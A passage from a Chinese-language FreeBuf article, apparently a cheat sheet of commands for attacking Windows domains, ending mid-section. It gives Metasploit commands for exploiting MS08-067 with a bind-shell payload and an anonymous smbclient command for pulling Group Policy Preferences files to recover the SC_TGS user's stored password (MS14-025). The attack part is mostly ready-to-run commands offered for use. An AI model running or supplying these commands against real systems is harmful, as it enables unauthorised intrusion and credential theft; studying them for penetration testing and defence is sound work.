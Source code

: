 #  域渗透-常用漏洞命令总结

南城夕雾hacker  [ FreeBuf ](javascript:void\(0\);)

**FreeBuf** ![]()

微信号 freebuf

功能介绍 中国网络安全行业门户

____

___发表于_

收录于合集

## **  0x01MS08-067 **

  
 **RPC远程缓冲区溢出导致的远程代码执行漏洞**  
适用：Windows 2000;XP;Server 2003;Vista;Server 2008;7 Beta

    
          *   *   *   *   * 
    
    
    
    use exploit/windows/smb/ms08_067_netapi     #使用模块set rhosts 172.16.5.27      #设置靶机ipset lhost 172.16.5.28      #设置本地ipset payload generic/shell_bind_tcp     #设置payloadexploit

`（向右滑动、查看更多）`

##  **  
**

##  **  0x02GPP(MS14-025) **

  
适用：2003、2008、2012以上已修复。  
每当创建新的组策略首选项 (GPP) 时，都会在 SYSVOL 共享中创建一个带有该配置数据的 xml 文件，包括与 GPP
关联的任何密码。为安全起见，Microsoft将密码存储为`cpassword`. 但随后微软在 MSDN 上公布了密钥！，微软在 2014
年发布了一个补丁，阻止管理员将密码输入 GPP。但是该补丁对已经存在的这些易破解密码没有任何作用。  
接着我使用smbclient尝试访问该目录的文件，我注意到一个名为`Groups.xml`的文件。

    
          * 
    
    
    
    smbclient //10.10.10.100/Replication -U ""%""

`  
`

![](https://gitee.com/fuli009/images/raw/master/public/20221202191722.png)![](https://gitee.com/fuli009/images/raw/master/public/20221202191735.png)  
通过查看该文件的内容，我发现了SC_TGS用户及其GPP密码

    